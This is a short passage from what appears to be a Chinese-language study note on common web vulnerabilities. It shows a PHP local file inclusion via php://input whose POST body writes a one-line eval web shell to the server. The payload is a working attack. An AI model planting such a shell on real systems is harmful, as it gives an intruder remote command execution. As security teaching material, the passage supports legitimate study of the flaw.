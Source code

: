      ![图片描述](PictureFile/【Web】TOP漏洞.assets/bVbrQBh.jpeg)

     若有写入权限，写入一句话木马

     ```php
     http://127.0.0.1/include.php?file=php://input
     [POST DATA部分]
     <?php fputs(fopen('1juhua.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
     ```

     ![图片描述](PictureFile/【Web】TOP漏洞.assets/bVbrQBi.jpeg)
